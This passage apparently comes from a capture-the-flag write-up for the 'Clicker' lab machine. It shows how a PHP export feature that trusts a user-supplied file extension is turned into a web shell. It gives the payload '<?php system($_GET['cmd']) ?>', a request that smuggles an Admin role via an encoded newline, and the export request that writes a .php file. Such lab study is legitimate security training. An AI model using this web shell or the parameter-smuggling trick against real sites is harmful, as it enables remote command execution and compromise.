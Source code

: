 ```php
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>
```

- So if we add the `nickname` as parameter with one simple line of PHP code, we can create a backdoor:

Payload:

```php
<?php system($_GET['cmd']) ?>
```

- It is important to URL Encode PHP code into the request because it is in URL Path.

Request:

```
GET /save_game.php?clicks=3&level=0&role%0a=Admin&nickname=<%3fphp+system($_GET['cmd'])+%3f> HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=k04t2u6s0r3q6pd884eq4nho0l
Upgrade-Insecure-Requests: 1
```

- And now just need to export to PHP format:

Request

```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
DNT: 1
Connection: close
Referer: http://clicker.htb/admin.php
Cookie: PHPSESSID=k04t2u6s0r3q6pd884eq4nho0l
Upgrade-Insecure-Requests: 1

threshold=1000000&extension=php
```
